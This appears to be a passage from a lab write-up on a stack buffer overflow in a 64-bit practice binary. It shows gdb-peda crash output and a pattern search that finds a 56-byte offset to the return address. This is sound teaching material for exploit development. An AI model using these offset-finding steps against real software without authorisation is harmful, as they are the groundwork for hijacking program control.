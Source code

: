 ```sh
```



Run the program using the 'h' as an argument switch. Copy the patter string into the vulnerable help function and hit enter. We will immediately see a SIGSEGV segmentation fault which indicates that the program has attempted to write outside of its allocated memory. 

```sh
gdb-peda$ r h
Starting program: /home/student/Desktop/assign2/app/vuln64 h
This is an admin tools to run programs with elevated privileges
Press Enter to return...
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7ffc7b841f20 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RBX: 0x0 
RCX: 0x7f42fb26d980 --> 0xfbad2288 
RDX: 0x0 
RSI: 0x1e536b1 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\n")
RDI: 0x7f42fb270680 --> 0x0 
RBP: 0x4147414131414162 ('bAA1AAGA')
RSP: 0x7ffc7b841f58 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RIP: 0x4012a6 (<helpCommand+55>:        ret)
R8 : 0x7ffc7b841f20 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
R9 : 0x0 
R10: 0x6e ('n')
R11: 0x246 
R12: 0x4010a0 (<_start>:        xor    ebp,ebp)
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]

```


Use the in-built peda pattern_search command to calculate the offset number, of which we determine that the offset to this vulnerable function is '56'

```sh
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 48
Registers point to pattern buffer:
[RAX] --> offset 0 - size ~100
[RSI] --> offset 1 - size ~101
[RSP] --> offset 56 - size ~44
[R8] --> offset 0 - size ~100
```
